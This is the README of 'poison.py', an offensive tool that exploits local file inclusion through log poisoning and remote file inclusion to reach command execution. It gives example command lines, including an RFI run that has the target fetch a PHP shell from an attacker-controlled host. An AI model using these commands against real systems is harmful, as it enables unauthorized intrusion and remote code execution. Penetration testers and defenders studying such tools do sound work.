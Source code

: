 # poison.py
Fast tool to search log's for LFI vulnerabilities, and automatic escalation to shell

## Exploitation:
![Preview](https://github.com/user-attachments/assets/8d658876-79d6-41f1-9456-91681be9782e)



## Example usage (LFI):
```
./poison.py -u 'http://127.0.0.1/file.php?file=' -e 'id' -p src/payloads.txt -w src/small.txt
```
_____________________________________________________________________________________________
```
-u 'http://127.0.0.1/file.php?file=' # URL for poison the log
```

```
-e 'id' # Command to execute (In this time, command is id) (this option can be used for rev. shell)
```

```
-p src/payloads.txt # list of paylods during the poisoning
```

```
-w src/small.txt # wordlist using the search for available log's file
```
## Example usage (RFI):
```
/poison.py -u 'http://127.0.0.1/index.php?page=' --rfi --lhost 10.10.10.10 --rhost 127.0.0.1 --rport 14852 --lfile 'src/shell.php' -e 'id' --cookie 'PHPSESSID=1234567890'
```
![screenshot](https://github.com/user-attachments/assets/061fdbe8-5b76-43d8-816f-068abf521744)
_____________________________________________________________________________________________
```
--rfi # Remote File Inclusion option
```

```
--lhost 10.10.10.10 # which network interface to bind the local HTTP server to (necesssary only on remote explotiation)
```

```
-rhost 127.0.0.1 # remote-ip-address of http-server in request during the RFI
```

```
--rport 14852 # remote-port of http-server in request during the RFI
```

```
--lfile 'src/shell.php' # payload which include in the request during the RFI
```

```
-e 'id' # command for src/shell.php 
```

```
--cookie 'PHPSESSID=1234567890' # cookie for authorized requests
```

# ToDo list:
-   [x] Add the function with command execution
-   [x] Add the support of wordlist's
-   [ ] Add different injection endpoints (Headers)
-   [ ] Interactive shell 
-   [X] Add the function for RFI

# FOR EDUCATIONAL PURPOSES ONLY!
Usage of poison.py for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Author assume no liability and are not responsible for any misuse or damage caused by this program
